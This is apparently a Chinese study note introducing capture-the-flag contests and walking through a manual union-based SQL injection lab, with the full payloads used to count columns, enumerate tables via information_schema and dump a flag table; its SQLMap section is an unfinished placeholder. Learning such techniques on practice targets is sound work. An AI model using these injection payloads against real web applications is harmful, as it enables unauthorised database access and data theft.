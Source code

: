 ```yaml
---
slug: /net-security/10/09
---
```


**CTP**（Capture the Flag），中文称“夺旗赛”，安全人员之间进行技术竞争的一种比赛。



比赛形式：

1. 理论赛
2. 夺旗赛：Crypto（编码）、Web（渗透）、MISC（杂项）、Reverse（逆向）、PMW
3. AWD 网络攻防赛（团队赛、混战）
4. CFS 网络攻防赛（团队赛、综合靶场）



常见 CTF 题目：[https://www.ctfhub.com](https://www.ctfhub.com)

## SQL 注入

![](https://img.wukaipeng.com/2023/12/15-080046-IOW1OG-image-20231215080045546.png)

![](https://img.wukaipeng.com/2023/12/15-080106-gmml1U-image-20231215080106026.png)

![](https://img.wukaipeng.com/2023/12/15-080120-h1ksHf-image-20231215080120156.png)

### 手动注入

我们使用联合注入的方式：

1️⃣ 判断列数、显示位

输入 `1' order by 2#` 回显，而输入 `1' order by 3#` 不回显，说明数据库查询了两列：

![](https://img.wukaipeng.com/2023/12/17-091506-aq3VSb-image-20231217091506257.png)

![](https://img.wukaipeng.com/2023/12/17-091530-0f5ljW-image-20231217091529991.png)

2️⃣ 获取目标数据库名

输入 `-1' union select database(),2 #` 获取数据库的名称为 `sqli`

![](https://img.wukaipeng.com/2023/12/17-091720-6uGnmk-image-20231217091720030.png)

3️⃣ 获取目标数据库的所有表名、字段名、字段中的数据

输入 `-1' union select group_concat(table_name),2 from information_schema.tables where 
table_schema='sqli' #`，获取得到表 `new` 和 `flag`

![](https://img.wukaipeng.com/2023/12/17-091801-9LpqBH-image-20231217091801810.png)

查找 `flag` 表，输入 `-1' union select group_concat(column_name) ,2 from information_schema.columns where 
table_name='flag' #` ，发现 `flag` 字段

![](https://img.wukaipeng.com/2023/12/17-091849-x8M8uD-image-20231217091849472.png)

输入 `-1' union select flag,2 from sqli.flag #`，最终得到 ctfflag

![](https://img.wukaipeng.com/2023/12/17-091938-jLwlOd-image-20231217091938107.png)

### 使用 SQLMap

// TODO





